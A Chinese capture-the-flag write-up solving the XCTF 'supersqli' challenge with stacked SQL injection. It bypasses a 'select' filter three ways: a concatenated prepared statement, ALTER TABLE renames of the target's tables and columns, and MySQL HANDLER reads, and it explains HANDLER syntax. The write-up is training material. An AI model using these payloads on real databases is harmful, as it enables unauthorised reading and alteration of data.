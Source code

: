 ## 一题引出对Mysql中handler思考

### 题目

这是一道`攻防世界`里的`supersqli`题目，网址为

https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1

### 解题

初始界面为：

![image-20200621155254852](一题引出对Mysql中handler思考.assets/image-20200621155254852.png)

通过输入单引号`1'`，根据回显结果可知道这是一个字符型SQL注入

![image-20200621155348312](一题引出对Mysql中handler思考.assets/image-20200621155348312.png)



通过`1' order by 2--+`以及`1' order by 3--+`判处列数为2

通过`1' union select 1,2--+`，会返回过滤代码

![image-20200621155922039](一题引出对Mysql中handler思考.assets/image-20200621155922039.png)

过滤掉`select`查询数据就比较困难，这里列举`三种`绕过过滤方法

### 方法一：预编译

1. 使用堆叠注入

```
-1';show tables#
```

![image-20200621160830158](一题引出对Mysql中handler思考.assets/image-20200621160830158.png)

2. 查看字段

```
-1';show columns from `1919810931114514`#
-1';show columns from `words`#
```

![image-20200621161033295](一题引出对Mysql中handler思考.assets/image-20200621161033295.png)

![image-20200621161102085](一题引出对Mysql中handler思考.assets/image-20200621161102085.png)

3. 使用预编译查看值

```
-1';sEt @sql = CONCAT('se','lect * from `1919810931114514`;');prEpare stmt from @sql;EXECUTE stmt;#
```

![image-20200621161149885](一题引出对Mysql中handler思考.assets/image-20200621161149885.png)

### 方法二：表名列名替换

1. 根据输入`1`返回的结果，我们大体可以猜到SQL语句为：

`select * from wordls where id=1;`

2. 所以我们可以将表`1919810931114514`名字改为`words`，`flag`列名字改为`id`，那么就能得到flag的内容:
   - 修改表名（将表名`user`改为`users`
   - 修改列名（将字段username改为name)

3. 最终paylaod如果：

```
1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
```

4. 然后使用1' or 1=1# 即可查询出`flag`

![image-20200621162231240](一题引出对Mysql中handler思考.assets/image-20200621162231240.png)



### 方法三：handler

使用`handler查询`,payload如下：

```
-1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```



### handler知识点

`handler`语句：

```
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

`handler table_name open`打开一张表

`handler table_name read first`读物第一行内容

`handler table_anme next`依次获取其他行

最后一行执行之后再执行`handler table_name read next`会返回一个空结果



### 参考文章

1. [攻防世界-web-高手进阶区017-supersqli](https://www.cnblogs.com/joker-vip/p/12483823.html)
2. [Mysql HANDLER语句](https://www.jianshu.com/p/81fad5351736)
3. [supersqli](https://blog.csdn.net/nicesa/article/details/106390405)